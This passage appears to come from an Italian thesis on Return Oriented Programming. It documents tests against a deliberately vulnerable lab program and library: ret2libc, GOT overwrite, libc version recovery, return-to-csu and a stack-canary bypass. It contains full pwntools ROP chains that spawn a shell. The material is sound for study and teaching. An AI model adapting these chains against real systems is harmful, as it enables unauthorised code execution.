Grazie sempre alla libreria \textbf{pwntools}, impostando \textbf{lib}.\textbf{address} (dove lib è la variabile d'ambiente utilizzata all'inizio per contenere il file \textbf{ELF} della libreria) ad un indirizzo arbitrario, viene applicato automaticamente l'offset a tutti i simboli
contenuti in essa, sulla base dell'indirizzo inserito.\\
Per questo motivo, è stato possibile utilizzare qualsiasi funzionalità della libreria condivisa, semplicemente richiamandola all'interno della \textbf{ROP chain}.\\
Come per i precedenti attacchi, l'obbiettivo era quello di eseguire una \textit{shell}, tuttavia non era più presente il gadget contenente la \textbf{syscall} nel binary file dell'applicazione. Era invece presente in quello della libreria una funzione non visibile dall'applicativo 
principale, che dopo aver popolato correttamente i registri degli argomenti, permetteva di eseguirne una:
\begin{lstlisting}[language=C, label=secret function, caption={Funzione \textbf{secret\_function}() della libreria condivisa.}, style=C lang]
void secret_function(char * str1, char* str2[], char* str3[]){
    puts("\nreally secret function !!!");
    execve(str1, str2, str3);
}
\end{lstlisting}
Per portare a termine l'attacco venne quindi creata una seconda \textbf{ROP chain} (da inviare poi al processo) che modificasse il contenuto degli indirizzi, in modo tale da passare i corretti argomenti alla funzione trovata per eseguire la \textit{shell}.
Le richieste erano pressoché simili a quelle viste negli attacchi precedenti, quindi nel registro \textbf{rdi} serviva un puntatore alla stringa ``\textbf{/bin/sh\textbackslash00}'', mentre \textbf{rsi} e \textbf{rdx} dovevano essere impostati entrambi a zero.\\ 
In questo caso al posto del \textbf{gadget} contenete la \textbf{syscall} come ultimo elemento della catena, venne invece inserita la chiamata a \textbf{secret\_function}():
\begin{lstlisting}[language=Python, label=cu-idx, caption={Seconda \textbf{ROP chain} per il settaggio dei registri e la chiamata finale a \textbf{secret\_function}(), ed invio finale della stessa.}, style =Python]
rop = ROP([elf,lib])                      # creazione oggetto rop
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw("/bin/sh\x00")                    # r12 = "/bin/sh\x00"
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;
rop.raw(pop_rsi)                          # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                        # rsi = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(pop_rdi)                          # pop rdi; ret;
rop.raw(where_to_write)                   # rdi = .data idx -> "/bin/sh\x00"
rop.raw(xor_rdx)                          # rdx = 0x00
rop.call("secret_function")               # chiamata a secret_function()

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()          
\end{lstlisting}
Anche in questo caso, come per quelli precedenti, l'esecuzione dell'exploit completo portò alla corretta esecuzione di una \textit{shell}.

\subsection{Return-to-GOT}
\label{subsec:Test_3-2}
Nel secondo test di questa serie, è stata utilizzata la tecnica discussa nella sezione \ref{subsec:Attack_3.2.2}. Anche in questo caso, essendo disponibile il file \textbf{ELF} della libreria collegata, l'ostacolo da superare rimaneva la difesa \textbf{ASLR}.
Tuttavia, invece di recuperare l'indirizzo di partenza della libreria in memoria, venne sfruttata una delle caratteristiche della \hyperref[subsec:PLT-GOT]{\textbf{GOT}}, ossia quella di essere modificabile dall'utente.
Questo particolare consentì il superamento del sistema di difesa, senza dover recuperare alcun indirizzo effettivo in memoria della libreria, ed andando inoltre a creare solamente una \textbf{ROP chain}.\\
Come nei test precedenti, anche in questo inizialmente sono state impostate \hyperref[env]{le variabili d'ambiente} e \hyperref[gadgets]{i gadgets utili} (con alcune aggiunte che verranno mostrate successivamente). L'\textbf{offset} per sovrascrivere l'indirizzo di ritorno non venne ricalcolato, in quanto 
utilizzando la \hyperref[change username]{stessa funzione vulnerabile} del test passato, risultava uguale.\\
Arrivati a questo punto, venne calcolato l'\textbf{offset} statico tra la funzione di libreria \hyperref[secret function]{\textbf{secret\_function}()} (scoperta nel passato test) che si desiderava chiamare e la funzione già richiamata nelle prime fasi dell'attacco, 
ossia \hyperref[change username]{\textbf{change username}()}:
\begin{lstlisting}[language=Python, label=cu-idx, caption={Calcolo \textbf{offset} statico tra funzioni della libreria condivisa \textbf{secret\_function}() e \textbf{change\_username}().}, style =Python]
secret_off = libc.symbols["secret_function"]-libc.symbols["change_username"]         
\end{lstlisting}
Dopo aver ottenuto tale informazione, sono stati ricercati i \textbf{gadgets} necessari per costruire la \textbf{ROP chain} e portare a compimento l'attacco. Nello specifico ne sono stati recuperati alcuni che consentissero di aggiungere tale \textbf{offset} appena ottenuto,
all'indirizzo effettivo in memoria di \textbf{change username}(). Esso risultava già contenuto nel puntatore associato a tale voce nella ``\textbf{.got.plt}'', in quanto tale funzionalità era già stata inizialmente richiamata durante il normale flusso di esecuzione.
\begin{lstlisting}[language=Python, label=gadgets add, caption={\textbf{Gadgets} recuperati necessari per creare la \textbf{ROP chain}.}, style =Python]
pop_rbp = p64(0x4011dd)                         # pop rbp; ret;
add_mmrax_rbp = p64(0x401178)                   # add qword ptr [rax], rbp; ret;         
\end{lstlisting}
La chain finale aveva quindi come scopo quello di incrementare l'indirizzo di \textbf{change username}() contenuto nel puntatore sopraccitato e preparare poi i registri per la chiamata a \textbf{secret\_function}(), come nello scorso test. La differenza però è che in questo caso
non è stata richiamata direttamente tale funzionalità, fu invece chiamata \textbf{change username}(), in quanto ora il puntatore a tale voce della ``\textbf{.got.plt}'' conteneva l'indirizzo effettivo in memoria di \textbf{secret\_function}() e non più quello della precedente funzionalità:
\begin{lstlisting}[language=Python, label=rop2-sf, caption={Creazione e invio della \textbf{ROP chain} per modificare la sezione ``\textbf{.got.plt}''.}, style =Python]
rop = ROP(elf)                            # creazione oggetto rop
rop.raw(pop_r13)                          # pop r13; pop r14; pop r15; ret;
rop.raw(elf.got["change_username"])       # r13 = ptr -> change_username idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_rax_r13)                      # mov rax, r13; ret;
rop.raw(pop_rbp)                          # pop rbp; ret;
rop.raw(secret_off)                       # rbp = off secret_function-change_username
rop.raw(add_mmrax_rbp)                    # add [rax], rbp; add offset to got entry
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw("/bin/sh\x00")                    # r12 = "/bin/sh\x00"
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;
rop.raw(pop_rsi)                          # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                        # rsi = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(pop_rdi)                          # pop rdi; ret;
rop.raw(where_to_write)                   # rdi = .data idx -> "/bin/sh\x00"
rop.raw(xor_rdx)                          # rdx = 0x00
rop.call("change_username")               # chiamata a secret_function 

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()        
\end{lstlisting}
Eseguito l'exploit completo, il risultato fu nuovamente l'esecuzione di una \textit{shell}, come fissato da obbiettivo.

\subsection{Return-to-libc con recupero versione}
\label{subsec:Test_3-3}
Quest'ultimo test della serie, vede un cambio di situazione generale non indifferente. In questo caso, infatti, non si era più in possesso del file della libreria condivisa. Si decise allora di adottare l'approccio illustrato nella sezione \ref{subsec:Attack_3.3}, ossia dopo aver determinato la versione
della \textbf{libc} collegata all'applicazione utilizzando alcuni database disponibili online, è stato recuperato l'indirizzo di base in memoria e le funzioni in essa contenute sono state impiegate.\\
Anche in questo caso inizialmente vennero impostate tutte \hyperref[env]{le variabili d'ambiente} (ad esclusione di quella dedicata alla libreria che venne momentaneamente omessa), mentre non fu recuperato alcun \textbf{gadget}, poiché come si vedrà, non risultarono necessari. 
L'\textbf{offset} per sovrascrivere l'indirizzo di ritorno era già stato recuperato nel primo test.
\\Per trovare la versione della \textbf{libc}, era essenziale recuperare l'offset statico di almeno due funzioni contenute in tale libreria (sarebbe realizzabile anche solo con una, ma con due si avrà una certezza maggiore sulla versione ottenuta). A tale scopo, come nel \hyperref[subsec:Test_3-1]{primo test} di questa serie,
è stata creata una prima \textbf{ROP chain} che chiamasse due \textbf{puts}() consecutive per stampare gli indirizzi effettivi di sé stessa e della funzione \textbf{scanf}(), in quanto entrambe già chiamate una prima volta durante il flusso d'esecuzione dell'applicazione.\\
Come ultimo elemento della chain, è stata aggiunta anche questa volta la chiamata a \textbf{change\_username}(), cosicché l'applicazione non terminasse dopo solamente l'esecuzione di essa:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Costruzione e invio della prima \textbf{ROP chain} per il recupero degli indirizzi effettivi di \textbf{puts}() e \textbf{scanf}.}, style =Python]
rop = ROP(elf)                                              # creazione oggetto rop
rop.raw(elf.symbols["puts"])                                # stampa '\n'
rop.call(elf.symbols["puts"],[elf.got["puts"]])             # stampa idx puts
rop.call(elf.symbols["puts"],[elf.got["__isoc99_scanf"]])   # stampa idx scnaf
rop.raw(elf.symbols["change_username"])                     # chiama change_username    

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                                    # invio ROP chain
p.recvlines(3) 

puts_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00")) 
scanf_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
\end{lstlisting}
Dopo aver recuperato questi due indirizzi, com'è stato spiegato \hyperref[subsec:Attack_3.3]{nella sezione dedicata a questa tecnica d'attacco}, tali informazioni sono state sfruttate per recuperare dal \href{https://libc.blukat.me/}{database online delle libc} la versione di quella collegata all'applicazione.\\
Una volta effettuato il download del file \textbf{ELF} della libreria dal database, l'obbiettivo coincideva con quello del \hyperref[subsec:Test_3-1]{primo test della serie}, ossia recuperare l'indirizzo di base in memoria per bypassare la difesa \textbf{ASLR} ed infine utilizzare qualsiasi funzionalità disponibile al suo interno.
A tale scopo venne utilizzato l'indirizzo effettivo di \textbf{puts}() ottenuto precedentemente, a cui fu sottratto l'offset statico di tale funzione presente nel file della \textbf{libc}:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Caricamento del file \textbf{ELF} della \textbf{libc} e calcolo-settaggio dell'indirizzo base di essa in memoria.}, style =Python]
libc = ELF("./libc6_2.31-0ubuntu9.2_amd64.so")

libc.address = puts_lib_idx - libc.symbols["puts"]
\end{lstlisting}
Dopo che ogni offset statico dei simboli all'interno della libreria era stato sostituito con il corrispettivo indirizzo effettivo in memoria, a differenza di quanto fatto in tutti i precedenti test, si cercò l'indirizzo alla stringa ``\textbf{/bin/sh\textbackslash00}'', in quanto sempre presente all'interno della
\textbf{libc}:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Ottenimento indirizzo della stringa ``\textbf{/bin/sh\textbackslash00}'' presente in \textbf{libc}.}, style =Python]
binsh = next(libc.search(b"/bin/sh\x00"))             # restituisce idx a "/bin/sh\x00"
\end{lstlisting}
Come ultimo passo non rimaneva che la creazione della \textbf{ROP chain} finale. Quest'ultima sequenza poteva essere composta in due differenti metodi, i quali permettono la realizzazione del medesimo risultato. La prima prevedeva una chiamata alla funzione \textbf{system} della libreria, passando ad essa come unico argomento l'indirizzo alla stringa ``\textbf{/bin/sh\textbackslash00}''
ottenuto in precedenza:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Creazione e invio della \textbf{ROP chain} effettuando la chiamata a \textbf{system}().}, style =Python]
rop = ROP([elf,libc])                     # creazione oggetto rop
rop.call("system",[binsh])                # chiama system(idx "/bin/sh\x00")

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
\end{lstlisting}
La seconda includeva l'utilizzo del metodo \textbf{execve} fornito da \textbf{pwntools}, che cerca e richiama automaticamente l'omonima funzione \textbf{execve}() presente all'interno della funzione \textbf{libc}, passandole gli argomenti necessari per eseguire una \textit{shell} come accaduto nei due test precedenti:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Creazione e invio della \textbf{ROP chain} effettuando la chiamata a \textbf{system}().}, style =Python]
rop = ROP([elf,libc])                     # creazione oggetto rop
rop.execve(binsh,0,0)                     # chiama execve(idx "/bin/sh\x00", 0, 0)

payload = dict()              
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
\end{lstlisting}
Come anticipato, in entrambi i casi il risultato finale fu la corretta esecuzione di una \textit{shell}.

\section{Test Return-to-csu}
\label{sec:Test_4}
Questo test farà riferimento alla sezione \ref{sec:Attack_4}, dov'è stata introdotta una particolare tecnica d'attacco basata sulla funzione \textbf{\_\_libc\_csu\_init}() (da cui il nome \textbf{Return-to-csu}).\\
In questo caso, non avendo più a disposizione i \textbf{gadgets} per popolare i registri destinati a contenere gli argomenti delle chiamate a funzione, risultava impossibile il richiamo della procedura \hyperref[secret function]{\textbf{secret\_function}()} contenuta nella libreria condivisa, per eseguire la shell.
Si decise allora di sfruttare questa nuova ``tecnica'', per sopperire a tale mancanza. Grazie ad essa infatti, è stato possibile controllare i primi tre registri \textbf{edi} (i primi 32 bit di \textbf{rdi}), \textbf{rsi} ed \textbf{rdx}, per richiamare poi correttamente tale funzionalità.\\
La funzione vulnerabile della libreria utilizzata è la medesima dei tre test precedenti, ossia \hyperref[change username]{\textbf{change username}()}.\\
Come per ogni altro test, il primo passo per lo sviluppo dell'exploit è stato il settaggio \hyperref[env]{delle variabili d'ambiente} (in questo caso si disponeva anche del file della libreria condivisa) ed il recupero dei \hyperref[gadgets]{gadgets utili} per la creazione della \textbf{ROP chain}, tra cui quello fornito dalla funzione  
\textbf{\_\_libc\_csu\_init}():
\begin{lstlisting}[language=Python, label=gadgets add, caption={\textbf{Gadgets} recuperati dalle istruzioni che compongono \textbf{\_\_libc\_csu\_init}().}, style =Python]
csu_gadget_comp = p64(0x401330)         # gadget preso dalla sezione __libc_csu_init. 
                                        # mov rdx, r14; mov rsi, r13; mov edi, r12d; 
                                        # call qword [r15 + rbx*8]; add rbx, 1; 
                                        # cmp rbp, rbx; jne 0x401330; add rsp, 8;
                                        # pop rbx; pop rbp; pop r12; pop r13; pop r14; 
                                        # pop r15; ret;

csu_gadget_pop =  p64(0x40134a)         # gadget preso dalla sezione __libc_csu_init
                                        # pop rbx; pop rbp; pop r12; pop r13; pop r14; 
                                        # pop r15; ret;
\end{lstlisting}
Com'era stato infatti mostrato nella figura \ref{fig:csu-gadget}, entrambe le sequenze erano state recuperate da tale porzione di codice.\\
La difficoltà nell'applicare la tecnica, in questo caso, era la gestione corretta di tali \textbf{gadgets}. Come anticipato nella sezione \ref{sec:Attack_4}, l'istruzione \texttt{\textbf{call qword [r15 + rbx*8]}}. necessita di particolare attenzione. Per far sì che essa non terminasse l'esecuzione dell'applicazione
si sarebbe dovuto inserire tra le due parentesi quadre un puntatore ad un gadget, oppure ad una qualsiasi sequenza di istruzioni terminanti obbligatoriamente con una \textbf{ret}. Solo in tale modo l'esecuzione sarebbe proseguita correttamente ripartendo dall'istruzione successiva a tale \textbf{call}.\\
Un possibile puntatore ad un \textbf{gadget} è stato ricercato all'interno del file \textbf{ELF} dell'applicazione usando lo strumento \hyperref[Radare2]{\textbf{Radare2}}.
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=1\textwidth]{images/puntatore a gadget.png}
      \caption{Puntatore a \textbf{gadgets} trovato cercando all'interno della sezione \textbf{.dynamic} del file \textbf{ELF} con \hyperref[Radare2]{\textbf{Radare2}}.}\label{fig:pointer-gadget}
\end{figure}

Recuperato tale elemento, prima è stata creata la \textbf{ROP chain} per sovrascrivere la sezione ``got.plt'' pedissequamente a quanto fatto nel \hyperref[change username]{\textbf{precedente test}}, pertanto tale parte dell'attacco non sarà riportata nuovamente qui.
La parte interessante del test fu invece la gestione della seconda parte di \textbf{ROP chain}, ossia quella contenete i \textbf{gadgets} per controllare i registri \textbf{edi}, \textbf{rsi} e \textbf{rdx}.\\
Inizialmente è stato richiamato solo il secondo gadget, ossia quello composto da tutte le diverse istruzioni \textbf{pop}, così tutti i registri interessati avrebbero poi contenuto i dati corretti prima che si passasse all'esecuzione del primo gadget:
\begin{lstlisting}[language=Python, label=rop1-csu, caption={Prima sequenza della \textbf{ROP chain} che sfrutta il secondo gadget trovato in \textbf{\_\_libc\_csu\_init}().}, style =Python]
rop.raw(csu_gadget_pop)                   # riportato sopra
rop.raw(p64(0x00))                        # rbx = 0x00
rop.raw(p64(0x01))                        # rbp = 0x01
rop.raw(where_to_write)                   # r12 = .data idx -> "/bin/sh\x00"
rop.raw(p64(0x00))                        # r13 = 0x00
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x403e48))                    # r15 = ptr a gadget 
\end{lstlisting}
Com'è possibile notare dalla porzione di codice sopra riportato, in \textbf{r12} è stato inserito l'indirizzo su cui risiede la stringa ``\textbf{/bin/sh\textbackslash00}'', dato che tale contenuto sarebbe andato poi in \textbf{edi}. I due registri \textbf{r13} e \textbf{r14}, sono stati posti 
a \textbf{zero} poiché anch'essi avrebbero trasmesso tale valore rispettivamente ad \textbf{rsi} e \textbf{rdx}. 
Per quanto riguarda invece \textbf{rbx} ed \textbf{rbp}, il primo era stato azzerato, il secondo invece era stato impostato ad \textbf{uno}, cosicché la seguente sotto sequenza del primo \textbf{gadget} non eseguisse l'istruzione \textbf{jne} finale:\\\\
\begin{text}
\noindent
\hspace*{5.6cm}\texttt{\large{\textbf{\textcolor{Bittersweet}{ADD}  \space  RBX, \space 1;}}}\\
\hspace*{5.6cm}\texttt{\large{\textbf{\textcolor{Bittersweet}{CMP}  \space  RBP, \space RBX;}}}\\
\hspace*{5.6cm}\texttt{\large{\textbf{\textcolor{Bittersweet}{JNE}  \space  0X401330;}}}\\\\
\end{text}
Infatti, se \textbf{rbx} prima conteneva \textbf{zero}, dopo l'\textbf{add} conterrà 1, e confrontandosi con \textbf{rbp} che conteneva già \textbf{uno}, risulteranno uguali evitando di fatto la \textbf{jne}.\\
L'ultimo registro rimasto era \textbf{r15}, che a differenza degli altri conteneva l'indirizzo del puntatore al gadget trovato nelle prime fasi del test, in quanto l'istruzione \textbf{call} avrebbe sfruttato solamente il suo di contenuto, essendo \textbf{rbx} inizialmente nullo.\\
Come ultimo passaggio per la creazione dell'exploit venne aggiunta la parte finale della \textbf{ROP chain}, ossia quella contenente la chiamata al primo gadget e alla \textbf{secret\_function}():
\begin{lstlisting}[language=Python, label=rop1-csu, caption={Prima sequenza della \textbf{ROP chain} che sfrutta il secondo gadget trovato in \textbf{\_\_libc\_csu\_init}().}, style =Python]
rop.raw(csu_gadget_compl)                 # riportato sopra
rop.raw(p64(0x00) * 7)                    # add rsp, 8; rbx = 0x00; rbp = 0x00;  
                                          # r12 = 0x00; r13 = 0x00; r14 = 0x00; 
                                          # r15 = 0x0;
rop.call("change_username")               # chiamata a secret_function

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()
\end{lstlisting}
Una volta terminato l'attacco, il risultato nel suo complesso fu la corretta esecuzione di una \textit{shell}.

\section{Test bypass del "Canary"}
\label{sec:Test_5}
Per concludere, questo ultimo test ha come scopo il superamento di una meccanica di difesa detta "\textbf{Stack Canary}" o "\textbf{Stack Canaries}".\\ Come spiegato nella sezione \ref{sec:stack canaries}, tale metodo cerca di preservare il sistema da attacchi malevoli realizzati
avvalendosi delle vulnerabilità della classe \hyperref[subsec:Stack-buffer overflow]{\textbf{stack-buffer overflow}}. Tuttavia, come si vedrà in questo test, in determinate condizioni tale difesa sarà comunque superabile, continuando ad utilizzare la \textbf{Return Oriented Programming}.\\
Essendo lo "\textbf{stack canary}" al centro di questo test, esso è stato abilitato sia nel codice principale che in quello della libreria condivisa:
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=.3\textwidth]{images/sec-vuln-canary.png}\hfil
      
\includegraphics[width=.3\textwidth]{images/sec-canary-lib.png}
      \caption{Difese attive nel \textbf{codice principale} e nella \textbf{libreria condivisa}}\label{fig:checksec2}
\end{figure}
\\La funzione vulnerabile della libreria sfruttata durante quest'ultima prova è la seguente:
\begin{lstlisting}[language=C, label=new credentials canary, caption={Funzione \textbf{new\_credentials\_canary}() della libreria condivisa.}, style=C lang]
void new_credentials_canary(){
    char username[16];
    char password[3];
    char *conf;
    
    puts("\nInserisci l'username:");
    read(0,username,0x10);
    printf(username);
    puts("\nInserisci la password:");
    read(0,password,0x10);
    printf(password);
    puts("\nConferma password:");
    read(0,conf,0x100);
}
\end{lstlisting}
Com'è possibile notare è presente un puntatore non inizializzato e due buffer di cui uno su cui è possibile fare overflow. Inoltre, potrebbero essere inserite delle format string per recuperare alcuni dati dallo \textbf{stack}.\\
Nella sezione \ref{sec:canary bypass} è stato spiegato l'approccio con cui è stato sviluppato l'exploit per completare l'attacco. È stata impiegata tale tecnica poiché in grado di sfruttare al meglio tutte le vulnerabilità presenti.\\
Come nei precedenti attacchi il primo passaggio è stata l'impostazione delle \hyperref[env]{variabili d'ambiente} ed il recupero dei \hyperref[gadgets]{\textbf{gadgets}} utili. L'\textbf{offset} è stato calcolato successivamente, in quanto richiedeva un approccio leggermente diverso rispetto
a quello utilizzato in precedenza.\\
Per poter proseguire lo sviluppo dell'attacco era necessaria la determinazione dell'indirizzo della porzione di stack su cui risiedeva l'indirizzo di ritorno, per poterlo sostituire a quello del puntatore presente.
A tale scopo, è stata utilizzata la prima funzione \textbf{read}() per inserire nel buffer una format string, e poter così recuperare uno degli indirizzi presenti in memoria. Nello specifico, fu ottenuto l'indirizzo del vecchio valore di \textbf{rbp}, il quale è sempre presente 
all'interno dello stack. Sottraendo poi ad esso un offset statico ad ogni esecuzione e corrispondente alla distanza tra esso e il posizionamento nello stack dell'obbiettivo, si ottenne la posizione dell'indirizzo di ritorno:
\begin{lstlisting}[language=Python, label=format-string, caption={Invio format string per stampare vecchio contenuto di \textbf{rbp} e calcolo della posizione nello stack dell'indirizzo di ritorno.}, style =Python]
payload = dict()              
payload[0] = b"%12$p\n"                   # stampa il settimo elem. stack : old rbp
p.sendline(fit(payload))            

ret_pos = (int(p.recvline(False).decode('utf-8'),16) - 168).to_bytes(8,'little') 
\end{lstlisting}
Ottenuta tale informazione, il passo successivo fu quello del sovrascrivere, grazie al overflow dato dalla seconda chiamata a \textbf{read}(), l'indirizzo del puntatore non inizializzato con quello appena determinato.\\
L'\textbf{offset} per effettuare tale operazione era pari alla dimensione del buffer su cui si sarebbe scritto, ossia tre byte, permettendo così la sostituzione dell'indirizzo del puntatore con l'input rimanente:
\begin{lstlisting}[language=Python, label=pointer-over, caption={Invio input per sovrascrittura indirizzo puntatore con posizione nello stack dell'indirizzo di ritorno.}, style =Python]
payload = dict()
payload[3] = ret_pos                      # posizione indirizzo di ritorno
p.sendline(fit(payload))
\end{lstlisting}
Infine, è stata costruita la \textbf{ROP chain} che sovrascriveva l'indirizzo di ritorno, saltando però lo \textbf{stack canary}, dato che l'ultima chiamata a \textbf{read}() scriveva direttamente nella zona dello stack su cui era posizionato l'indirizzo di ritorno.
La catena creata era molto simile a quella del \hyperref[subsec:Test_3-2]{test con sovrascrittura della sezione ``\textbf{.got.plt''}}, l'unica differenza era la sovrascrittura della voce associata alla funzione \textbf{new\_credentials\_canary}() rispetto a quella di 
\textbf{new\_credentials}(). Tale parte sarà quindi omessa.\\
Anche in quest'ultimo test, il risultato finale è stato la corretta esecuzione di una \textit{shell}, utilizzando comunque la \textbf{ROP} anche in presenza dello \textbf{stack canary}.